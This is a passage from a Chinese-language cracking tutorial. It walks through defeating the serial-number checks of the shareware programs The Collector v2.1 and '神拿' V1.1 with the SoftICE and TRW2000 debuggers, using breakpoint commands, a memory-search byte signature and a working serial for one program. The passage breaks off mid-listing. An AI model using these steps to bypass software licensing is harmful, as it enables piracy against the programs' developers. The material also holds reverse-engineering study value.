    Mid$ <- 得到名字的第一个字节
    Asc returns Integer 77 <- 第一个字节的 ascii 码
    Double 5929 -> Long 5929 <- 77 * 77 = 5929
    Mid$ <-

## SoftICE 破 Collector v2.1

The Collector 是能有效维护你收集的软件的软件，关于此程序的更多信息如下：

- 名称：The Collector v2.1
- 下载位置：http://internet.ca/~logic/collectr.html
- 大小：collectr.exe = 246,047 bytes
- 保护方式：序列号
- DLL：uses VB3 DLL <************** VB3.DLL

我发现解释破解步骤是很容易的，因此我将把这个破解过程分为几步。

第一步：正确运行它，启动后它将要求你输入序列号。

第二步：输入一串虚假的数字 '9876543210'。现在按 Ctrl+D 进入 SoftICE，在 SoftICE 输入 `bpx hmemcpy`。在 hmemcpy 核心函数内（hmemcpy 是什么？Windows 用 hmemcpy 对字符串操作。在这个例子中，它将用于把我输入的 VB DLL 的内存空间的字符串拷贝到缓冲器。我们中断在 Windows 把字符串送入 VB DLL 的入口处）。

第三步：用 Ctrl+D 返回到 Windows 下，按“OK”，这将使 SoftICE 在 hmemcpy 函数处中断。

第四步：现在我们将继续跟踪进一步的 hmemcpy 情况，找到我们输入储存字符串的地方。按住 F10 直到你看见这些：

```assembly
Memory_copying_snippet
JMP 9E9E
PUSH ECX
MOV CX, 02
REPZ MOVSD
POP ECX
AND ECX, 03
REPZ MOVSB
XOR DX, DX
```

第五步：在 REPZ MOVSD 之前，做 `d esi`，你将看见你输入的字符串。在我的例子里，它显示的是“0987654321”。执行 `d es:di` 你什么也不能看见，但是如果你按 F10 通过 repzmovsb 这一行，你将看见字符串拷贝到新的位置 es:di 处，这就是 VB DLL 字符串入口处。

第六步：现在我们知道字符串的位置。我们回顾一下我们的策略：我们的计划是找到 VB DLL 保存我们序列号的地方，然后在此内存处设置断点，以观察字符串比较的状况。让我们设一个 bpr（breakpoint on range 区域断点）在我们字符串的位置。因为 REPZ MOVS(D/B) 指令下移了 di 的指针位置（它现在指在我们列的末尾），我们做 `bpr es:di-8 es:di-1 rw`，在看第七步之前不要敲回车键。

第七步：在我们敲回车前，我将告诉你你所期盼的。SoftICE 将中断在字符串被读写内存块的任何地方。例如，你中断在函数 strlen 计算字符串长度。现在你要将中断的字符串从一个地方拷贝到内存的另外一个地方（如 REPZ MOVSW 指令）。它和字符串放在新的位置（一个新的断点区域）。当整个字符串，或者部分被删除时，它也会中断。如果整个字符串没有得到完整的删除，不能移出相应的 bpr。当完整的字符串被其他东西写入时，只能移出它。你在 hmemcpy 中也要再次暂停。hmemcpy 将在这个 DLL 的内存内读字符串的另一个回应。换一个区域断点，最后你将在代码的比较部分中断。当我到达代码的那块地方时有 4 个断点设置，一个 hmemcpy 的断点设置，3 个断点区域在字符串的反馈中。

第八步：现在我们发现了 VB3 DLL 的代码比较处，我们在这儿设置断点，并禁止其他不再需要的断点的调用。这是我们已经发现 VB3 比较的位置，能看到的是：

```assembly
The_VB3_compare_snippet
8BCA        mov cx, dx
F3A6        repz cmpsb    <- 这儿是字符串 in ds:si 和 es:di 被比较
7401        je 8CB6
9F          lahf
92          xchg ax, dx
8D5E08      lea bx, [bp + 08]
E80E06      call 92CB
```

在指令 REPZ CMPSB 执行前，你做 `d ds:si` 和 `d es:di`，你将看到字符串比较的内容。在此例中，我们用输入的字符串中第二、第三字节和“V8”来比较，因此你重新运行程序并输入 0V87654321 将成功注册。

第九步：我们仍未结束，恰恰相反。我们现在做什么？下次碰到 VB3 程序，我们可快速设断找到正确的序列号。我们怎么做呢？用 The Collector 照做一次：

1. 运行 The Collector 并输入一个假的序列号。
2. 进 SoftICE 在 hmemcpy 上设置断点。敲 OK，使你回到 SoftICE。
3. 现在脱壳，得到序列号在 VBRUN300 的代码中（敲 F11 和 F10 直到你得到序列号）。
4. 现在查找：`8B CA F3 A6 74 01 9F 92 8D 5E 08 E8 0E 06`，这是“mov cx, dx”和我们没有看到的部分。观察 `s 0 L ffffffff 8B CA F3 A6 74 01 9F 92 8D 5E 08 E8 0E 06` 在它返回处设断。
5. 敲 F5 你能进入上面进行比较的代码中。剩下的事情就是检查 es:di 和 ds:si 的指示器了。

## "神拿" V1.1 的破解过程

> 俗话说“万事开头难”，进入破解界更是如此。这就需要我们认真研究先辈们的宝贵的破解文献，从中掌握破解的知识。但这些文献大都比较深奥，不一定适合破解者入门之用。于是，我写下这篇文章，希望能够对各位有所帮助。

“神拿” V1.1 是一个共享软件，未注册版本有时间限制。它集合了包括查看“**”密码、获取系统密码在内的几项功能。

下载地址：http://www.csdn.net/soft/openfile.asp?kind=1&id=10365

这次破解用的工具是 TRW2000，它是国人刘涛涛制作的跟踪调试工具，功能十分强大，比起 SoftICE 有过之而无不及。它的使用非常简单，十分适合初级破解者使用。下载地址：http://www.crackbest.net/unlock/debug/trw2k123.zip

将 TRW2000 的压缩包解压缩后，便会在硬盘上建立一个“TRW2000”的文件夹。进入该文件夹，双击运行 trw2000.exe，可以见到其界面非常简洁。其中，菜单栏包括了软件的运行界面设置、软件帮助和版权说明，一般不用理会。“Browse(浏览)”用于选择破解对象，“Load(载入)”则可以运行破解对象，下方的文本框可以说明载入操作是否成功。

OK，开始实战。用“Browse”选择“神拿.exe”，按下“确定”。这时，你可以到“神拿.exe”所在的目录，双击来运行它。不过，我习惯于另一种做法，即按“Load”，不一会儿，就会弹出一个“DOS”窗口，一切的破解操作都在该窗口下进行。我们现在完全不用理会该窗口，按下“F5”，该窗口马上就会消失；“神拿”已经在等待我们了。如果你觉得 TRW2000 的窗体很碍眼，可以按“OK”将它放进系统的托盘区。点击“神拿”的“我要注册”按钮，“用户名”输入“crack”，“注册码”输入任意数字，比如“12345”，然后按“Ctrl + N”三级热键（或“Ctrl + M”一级热键，一、三级热键都可以在 TRW2000.ini 里修改）激活跟踪窗口，输入命令：

`bpx hmemcpy`

（“bpx”就是下断点的意思，即破解对象内部运行到该断点时，就会停止运行，并激活跟踪窗口。常见命令有 `bpx hmemcpy`、`bpx getwindowtext`，具体命令形式为：bpx address）

`g`

（“g”是“去”的意思，快捷键为“F5”，与“x”（Exit Window）有异曲同工之妙。）

跟踪窗口消失后，如果又反弹回来，必须输入：

`bc *`

（“bc”就是撤消断点，命令形式为：bc n|*）

然后检查是否有后台程序在运行，有的话则将它们关掉，接着重新操作。

按下“本地注册”后，跟踪窗口又被激活了。输入：`bc *`

`pmodule`

（“pmodule”就是进入程序内部来跟踪的意思。）

这时，让我们认真研究该跟踪窗口。该窗口包括一个主窗体和一个浮动窗体，它们都可以用鼠标来移动，小窗体还可以通过按其右上方的“X”来关掉。小窗体只提供了地址(ADDRESS)的变换信息，而主窗体则包含更丰富的信息。主窗体被分隔条分成四块，各块都可以任意调整大小。由上至下，第一块，提供了“EAX”、“EBX”这些代码和内存地址段 CS 等的变换信息；第二块，提供了活动的“神拿”16 进制源代码，可以随时修改和删除；第三块，是将“神拿”反编译后的汇编代码，跟踪行为大都在该窗口进行，并且跟踪到的地方会被一个光条加亮；第四块，就是刚才输入命令的地方，最下方还提供了命令的相关资料。

我们会看到光条在“0043199F”地址处停了下来。按“F10”（单步跟踪键）跟踪下去，出现如下代码：

```assembly
0043199F    MOV [EBX + 0C], EAX
004319A2    MOV EAX, EBX
004319A4    CMP EAX, BYTE PTR [EBX + 0C]
004319A9    MOV EDX, [EBX + 08]
004319AC    PUSH EDX
004319AD    MOV ECX, [EBX + 04]
004319B0    MOV EAX, EDX
004319B2    MOV EAX, ESI
004319B4    CALL 0042D880
004319B9    JMP 004319C4
```

不过上面的代码并不太重要，下面的就是“神拿”的注册码生成过程了：

```assembly
00475D04    LEA EAX, [EBP - 0C]
00475D07    PUSH EAX
00475D08    MOV ECX, 01
00475D0D    MOV EDX, ESI
00475D0F    MOV EAX, [EBP - 04]
00475D12    CALL 00403FF0
00475D17    MOV EAX, [EBP - 0C]
00475D1A    CALL 00403FAC
00475D1F    MOV AL,